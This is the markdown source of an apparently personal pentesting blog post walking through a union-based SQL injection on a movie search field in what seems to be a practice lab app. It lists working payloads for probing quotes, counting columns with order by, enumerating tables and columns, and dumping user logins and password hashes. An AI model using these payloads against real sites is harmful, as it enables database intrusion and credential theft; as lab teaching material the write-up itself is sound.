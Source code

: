 ```yaml
---
layout: post
title: SQL Injection (Search\GET)
categories:
  - Web-Pentesting
---
```


<p>A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.</p>
<br>Here we can search for the movies

![50](https://teckk2.github.io/assets/images/Web%20Pentest/A1/50.png)
![51](https://teckk2.github.io/assets/images/Web%20Pentest/A1/51.png)
<br>Let’s check for slqi with single quote (‘)
![52](https://teckk2.github.io/assets/images/Web%20Pentest/A1/52.png)
![53](https://teckk2.github.io/assets/images/Web%20Pentest/A1/53.png)
<br>And we got the error now let’s proceed further.
![54](https://teckk2.github.io/assets/images/Web%20Pentest/A1/54.png)
<br>With double quotes and space in between (‘ ‘)
![55](https://teckk2.github.io/assets/images/Web%20Pentest/A1/55.png)
<br>All the movie result is now showing without searching for any specific movie from the database.
<br>Now using order by find the exact no. of columns in the database.
<br>For that we will put (1' order by 1-- -) after title= and increase the numbers of columns until we get any error.
![56](https://teckk2.github.io/assets/images/Web%20Pentest/A1/56.png)
<br>title=1' order by 1-- -
<br>title=1' order by 2-- -
<br>title=1' order by 3-- -
<br>title=1' order by 4-- -
<br>title=1' order by 5-- -
<br>title=1' order by 6-- -
<br>title=1' order by 7-- -
![57](https://teckk2.github.io/assets/images/Web%20Pentest/A1/57.png)
<br>At (8) we got the error which means there is 7 columns in the database, now move to the next step
<br>**Which is enumerating the database using (union select)**
![58](https://teckk2.github.io/assets/images/Web%20Pentest/A1/58.png)
<br>At columns we can print our result on are 2,3,5,4 respectively.
<br>Let’s choose column 2
![59](https://teckk2.github.io/assets/images/Web%20Pentest/A1/59.png)
![60](https://teckk2.github.io/assets/images/Web%20Pentest/A1/60.png)
<br><font color="Black">title=1' union select 1,database(),3,4,5,6,7-- -</font>
<br>Now extract the table names from the database.
![61](https://teckk2.github.io/assets/images/Web%20Pentest/A1/61.png)
<br><font color="Black">title=1' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema=database()-- -</font>
![62](https://teckk2.github.io/assets/images/Web%20Pentest/A1/62.png)
<br><font color="Black">title=1' union select 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema=database()-- -</font>
<br>now let’s check the users table
![63](https://teckk2.github.io/assets/images/Web%20Pentest/A1/63.png)
<br><font color="Black">title=1' union select 1,group_concat(column_name),3,4,5,6,7 from information_schema.columns where table_name="users"-- -</font>
![64](https://teckk2.github.io/assets/images/Web%20Pentest/A1/64.png)
<br><font color="Black">title=1' union select 1,group_concat(login,0x3a,password),3,4,5,6,7 from users-- -</font>
<br>As you can see we successfully dump the username and password hash from the database.

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
